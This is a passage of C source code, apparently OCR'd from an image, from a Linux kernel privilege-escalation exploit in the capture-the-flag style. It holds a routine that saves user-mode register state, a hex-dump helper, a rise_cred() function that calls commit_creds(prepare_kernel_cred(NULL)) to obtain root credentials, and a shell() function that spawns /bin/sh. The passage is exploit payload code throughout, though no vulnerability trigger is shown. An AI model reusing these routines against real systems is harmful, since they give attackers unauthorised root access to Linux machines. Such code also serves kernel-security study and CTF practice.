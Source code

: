 ```c
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("\033[34m\033[1m[*] Status has been saved.\n\033[0m");
}

// this is a universal function to print binary data from a char* array
void print_binary(char* buf, int length){
	printf("---------------------------------------------------------------------------\n");
	printf("Address info starting in %p:\n", buf);
	int index = 0;
	char output_buffer[80];
	memset(output_buffer, '\0', 80);
	memset(output_buffer, ' ', 0x10);
	for(int i=0; i<(length % 16 == 0 ? length / 16 : length / 16 + 1); i++){
		char temp_buffer[0x10];
		memset(temp_buffer, '\0', 0x10);
		sprintf(temp_buffer, "%#5x", index);
		strcpy(output_buffer, temp_buffer);
		output_buffer[5] = ' ';
		output_buffer[6] = '|';
		output_buffer[7] = ' ';
		for(int j=0; j<16; j++){
			if(index+j >= length)
				sprintf(output_buffer+8+3*j, "   ");
			else{
				sprintf(output_buffer+8+3*j, "%02x ", ((int)buf[index+j]) & 0xFF);
				if(!isprint(buf[index+j]))
					output_buffer[58+j] = '.';
				else
					output_buffer[58+j] = buf[index+j];
			}
		}
		output_buffer[55] = ' ';
		output_buffer[56] = '|';
		output_buffer[57] = ' ';
		printf("%s\n", output_buffer);
		memset(output_buffer+58, '\0', 16);
		index += 16;
	}
	printf("---------------------------------------------------------------------------\n");
}

void rise_cred(){
	// define two function pointer
	// printf("\033[32m\033[1m[+] Ready to execute commit_creds(prepare_kernel_cred(NULL))......\033[0m\n");
	void* (*prepare_kernel_credp)(void*) = prepare_kernel_cred;
	int (*commit_credsp)(void*) = commit_creds;
	(*commit_credsp)((*prepare_kernel_credp)(NULL));
	// printf("\033[32m\033[1m[+] commit_creds(prepare_kernel_cred(NULL)) executed.\033[0m\n");
}

void shell(){
	// if(getuid()){
	// 	printf("\033[31m\033[1m[x] Error: Failed to get root, exiting......\n\033[0m");
	// 	exit(1);
	// }
	// printf("\033[32m\033[1m[+] Congratulations! root got......\033[0m\n");
	system("/bin/sh");
	exit(0);
}
```